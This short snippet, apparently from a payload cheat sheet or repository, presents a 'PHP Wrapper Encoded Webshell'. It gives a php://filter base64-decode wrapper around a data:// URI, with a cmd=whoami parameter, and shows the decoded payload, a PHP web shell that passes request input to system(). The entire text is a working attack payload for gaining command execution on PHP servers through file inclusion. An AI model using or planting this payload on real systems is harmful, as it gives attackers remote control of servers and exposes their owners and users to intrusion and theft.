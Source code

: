 # PHP Wrapper Encoded Webshell

### Command:

    php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami

####  The encoded payload is: 

    <?php system($_GET['cmd']); echo 'Shell done!'; ?>
